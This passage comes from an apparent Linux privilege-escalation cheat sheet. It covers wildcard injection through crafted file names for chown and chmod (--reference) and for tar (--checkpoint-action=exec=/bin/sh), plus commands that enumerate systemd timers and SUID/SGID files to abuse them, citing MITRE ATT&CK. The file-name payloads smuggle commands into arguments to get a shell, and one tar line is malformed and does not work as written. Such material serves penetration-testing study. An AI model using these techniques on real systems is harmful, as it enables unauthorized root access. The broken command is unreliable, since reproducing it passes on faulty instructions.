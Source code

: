 ```bash
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt
```

This works with chmod as well.

#### Tar arbitrary command execution

You can do the same with tar.

```bash
touch -- --checkpoint=1 # Create a file named --checkpoint=1
touch -- --checkpoint-action=exec=/bin/sh # Create a file named --checkpoint-action=exec=/bin/sh
--checkpoint=1 --checkpoint-action=action=exec=sh shell.sh # Perform shell.sh every file it go through
```

### Timers

Timers are systemd unit files whose name ends in . timer that control . service files or events. Timers can be used as an alternative to cron.

Timers are systemd unit files with a suffix of .timer. Timers are like other unit configuration files and are loaded from the same paths but include a [Timer] section which defines when and how the timer activates.

```bash
systemctl list-timers --all
```

Privileged timers are written to **/etc/systemd/system/** and **/usr/lib/systemd/system** while user level are written to **~/.config/systemd/user/**

```bash
# /etc/systemd/system/
ls -la /etc/systemd/system/
find /etc/systemd/system/ -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /etc/systemd/system/ -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# /usr/lib/systemd/system
ls -la /usr/lib/systemd/system
find /usr/lib/systemd/system -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /usr/lib/systemd/system -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# ~/.config/systemd/user/
ls -la ~/.config/systemd/user/
```

You can abuse from timers the same way as for cron jobs.

For more information about that technique refer to [T1053.006 - Scheduled Task/Job: Systemd Timers](https://attack.mitre.org/techniques/T1053/006/)
